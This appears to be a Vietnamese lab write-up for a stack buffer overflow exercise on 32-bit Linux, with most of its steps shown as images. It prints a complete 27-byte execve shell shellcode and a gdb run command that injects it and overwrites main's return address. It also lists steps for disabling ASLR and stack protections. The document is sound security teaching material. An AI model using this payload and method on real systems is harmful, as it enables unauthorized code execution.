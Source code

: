 ![alt text](images/image-32.png)

Mục tiêu là thay đổi giá trị trở về của hàm main sao cho có thể chạy shellcode
nasm -g -f elf sh.asm 
ld -m elf_i386 -o sh sh.o
dùng objdump -d sh để xem mã shi phan của file sh
![alt text](images/image-33.png)
dùng câu lệnh này để chỉ lấy các mã nhị phân của file sh và in ra
![alt text](images/image-34.png)
=> 27 bytes của shellcode

chuẩn bị môi trường lab
- Tắt chế độ cấp phát địa chỉ stack ngẫu nhiên khi load chương trình của HĐH
- ![alt text](images/image-35.png)
- Biên dịch chương trình c với các option tắt cơ chế bảo vệ stack và cho phép thực thi code trên stack
  ![alt text](images/image-36.png)
  * "-z execstack: "cho phép thực thi code trên stack"

- Creat link to zsh instead of default dash to turn off bash countermeasures of Ubuntu 16.04
  ![alt text](images/image-37.png)
  *    Phiên bản 16.04 có cơ chế bảo vệ stack => tắt đi => tạo shell mới zsh cho phép thực thi

  CONDUCTING THE ATTACK
  Mục tiêu là chèn 27 bytes của shellcode vào biến buf + 41 bytes bất kì 
  => 68 bytes của buf + ebp

  disas main
![alt text](images/image-40.png)
đặt breakpoint sau khi stackframe được thiết lập: 0x08048441
![alt text](images/image-38.png)
đặt breakpoint sau khi esp quay trở lại trí ban đầu: 0x0804846b
![alt text](images/image-39.png)
chạy chương trình
 r $(python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80'+'41'*a+'\xff\xff\xff\xff')")
 *'\xff\xff\xff\xff': dùng để nhận diện địa chỉ trả về của hàm main

 xem bộ nhớ stack khi stackframe được thành lập
![alt text](images/image-42.png)
xem bộ nhớ stack sau khi đã chèn shellcode vào
![alt text](images/image-43.png)
* 27 bytes đầu là của shellcode
* 41 bytes a
* 4 bytes 0xff là return address

thay thế địa chỉ trả về của stack thành esp
![alt text](images/image-45.png)
bộ nhớ stack sau khi thay thế địa chỉ trả về của stack thành esp
![alt text](images/image-46.png)
chạy tiếp
![alt text](images/image-47.png)